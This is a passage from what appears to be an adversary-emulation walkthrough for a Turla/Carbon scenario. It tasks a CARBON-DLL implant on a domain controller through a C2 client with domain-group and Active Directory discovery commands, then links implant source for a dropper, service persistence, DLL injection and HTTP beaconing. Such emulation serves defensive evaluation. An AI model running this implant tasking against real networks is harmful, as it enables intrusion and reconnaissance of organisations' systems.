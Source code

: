 :arrow_right: Return to your control server output and confirm the registration of a new
CARBON-DLL implant on the domain controller.

:arrow_right: Return to your tasking window and task the new CARBON-DLL implant
with discovery commands to be run on the domain controller.

```bash
./evalsC2client.py --set-task a3e63922 '{"id": 0, "cmd": "net group /domain"}'
```

:heavy_exclamation_mark: Verify that the `Web Servers` and `Web Server Admins` groups are in the output.

* Wait 1 minute and then task CARBON-DLL to enumerate both groups for their members.

```bash
./evalsC2client.py --set-task a3e63922 '{"id": 1, "cmd": "net group \"Web Servers\" /domain && net group \"Web Server Admins\" /domain"}'
```

* Wait 1 minute and then task CARBON-DLL to enumerate the Active Directory
Computers.

```bash
./evalsC2client.py --set-task a3e63922 '{"id": 2, "cmd": "dsquery * -filter \"(&(objectclass=computer))\" -attr *"}'
```

* Ensure `khabibulin` is in the output and confirm the `Description` value is
"Adalwolfa Workstation".

```bash
grep 'cn: khabibulin' logs.txt -C 2 -i
```

* This should return:
>
* > ```text
    > objectClass: user
    > objectClass: computer
    > cn: khabibulin
    > description: Adalwolfa Workstation
    > distinguishedName: CN=khabibulin,CN=Computers,DC=skt,DC=local
    > ```

### :moyai: Source Code

* [Password spray batch script](../../Resources/payloads/carbon/password_spray.bat)
* [CARBON-DLL installer](../../Resources/Carbon/CarbonInstaller/README.md)
  * [Drop components](../../Resources/Carbon/CarbonInstaller/Dropper/src/file_handler.cpp#L178)
  * [Create Loader Service](../../Resources/Carbon/CarbonInstaller/Dropper/src/service_handler.cpp#L170)
    * Service registry edits: [1](../../Resources/Carbon/CarbonInstaller/Dropper/src/service_handler.cpp#L230), [2](../../Resources/Carbon/CarbonInstaller/Dropper/src/service_handler.cpp#L284)
  * [Start Loader Service](../../Resources/Carbon/CarbonInstaller/Dropper/src/service_handler.cpp#L354)
  * [Loader Service](../../Resources/Carbon/CarbonInstaller/Loader/src/service.cpp)
* [CARBON-DLL Orchestrator](../../Resources/Carbon/Orchestrator/README.md)
  * [Comms Lib DLL Injection](../../Resources/Carbon/Orchestrator/src/injection.cpp#L454)
  * [Task Execution](../../Resources/Carbon/Orchestrator/src/tasking.cpp#L388)
* [CARBON-DLL Comms Lib](../../Resources/Carbon/CommLib/README.md)
  * [Beacon and task/payload retrieval over HTTP](../../Resources/Carbon/CommLib/src/CommLib.cpp#L313)
  * [Upload task output over HTTP](../../Resources/Carbon/CommLib/src/CommLib.cpp#L342)
  * [Peer to peer communications over named pipes](../../Resources/Carbon/CommLib/src/NamedPipeP2p.cpp)
